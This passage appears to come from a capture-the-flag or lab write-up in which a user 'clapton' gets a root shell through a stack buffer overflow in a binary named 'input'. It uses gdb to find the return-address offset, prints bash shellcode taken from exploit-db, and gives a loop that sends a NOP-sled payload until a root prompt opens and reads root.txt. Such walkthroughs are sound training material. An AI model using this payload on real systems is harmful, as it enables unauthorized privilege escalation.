




5.1.4 Get a shell on the victim's machine
You are using “clapton” user. from point 4.
1. Load the binary “input” in “gdb”.
$gdb -q input
2. Get the EIP value
(gdb) r $(python -c 'print("A"*171 + "B" * 5 + "\x90"* 2000 )')
Output:

(gdb) x/s $esp
Output:

ESP
\x10\xce\x9a\xbf3. “bash” shell code with our malicious code from https://www.exploit-db.com/shellcodes/13697.
BASH SHELL CODE
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"4. Exit from “gdb” (q).
5. Run this code on the shell.
for i in {1..10000}; do (./input $(python -c 'print "A" * 171 + "\x10\xce\x9a\xbf" + "\x90" * 2000 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')); done
Output:

6. Run the following code.
bash-4.3# cd /root
bash-4.3# ls
bash-4.3# cat root.txt
bash-4.3# ls
bash-4.3# cat root.txt
Output:
